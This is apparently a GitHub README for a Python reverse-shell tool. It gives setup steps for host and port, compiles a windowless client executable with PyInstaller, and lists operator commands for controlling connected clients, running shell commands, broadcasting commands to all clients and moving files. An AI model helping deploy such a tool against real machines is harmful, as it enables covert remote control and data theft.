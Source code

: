# Reverse-Shell-In-Python
A Multi Client And Singular Client Reverse Shell Made In Python

## ⚠️ I AM NOT RESPONSIBLE FOR ANY MISUSE OF THIS TOOL USE AT YOUR OWN RISK

## Setup

1. Edit Host And Client


client.py
```Python
host = "YOUR HOST"
port = "YOUR PORT"
```
server.py
```Python
host = "YOUR HOST"
port = "YOUR PORT"
```

2. Compile Client

```
pip install pyinstaller

pyinstaller --onefile --noconsole --icon=NONE client.py
```

## Multi Client Commands
```
-------------------Commands------------------------
list               Lists All The Connected Clients
connect <NUMBER>   Connect To a Client Shell
sendall <COMMAND>  Sends All Clients A Command
exit               Exits Server And Kills Clients
```

## Singular Client Commands
```
Commands
---------------------
All System Shell Commands
upload <FILE>
download <FILE>
clear
quit
```
